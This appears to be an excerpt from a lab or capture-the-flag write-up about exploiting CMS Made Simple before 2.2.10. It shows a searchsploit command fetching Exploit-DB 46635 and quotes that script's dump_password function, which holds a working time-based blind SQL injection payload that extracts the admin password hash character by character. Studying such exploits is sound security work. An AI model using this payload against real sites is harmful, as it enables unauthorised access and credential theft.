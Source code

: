 The latest unauthenticated standalone exploit available is __`SQL Injection`__ for versions __`CMS Made Simple < 2.2.10`__.

```console
$ searchsploit -m exploits/php/webapps/46635.py
  
    Exploit: CMS Made Simple < 2.2.10 - SQL Injection
        URL: https://www.exploit-db.com/exploits/46635
       Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
  File Type: Python script, ASCII text executable, with CRLF line terminators

```

The exploit calls the functions, __`dump_salt()`__, __`dump_username()`__, __`dump_email()`__, and __`dump_password()`__ to extract user credentials in the database. It is done by performing a <strong style="color:red">time-based blind SQL injection</strong> where if the query returned is not null, the system sleeps for some time. 

```py
...omitted...
def dump_password():
    global flag
    global password
    global output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_password)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
            payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password
...omitted...
```

The data are extracted by querying if a string (starting from the first character of the actual string) is a substring of the actual string. This is checked by measuring the response times. If it is greater than or equal to the sleep time, then the query did not return a null value. This is done character by character until the entire character string is returned.
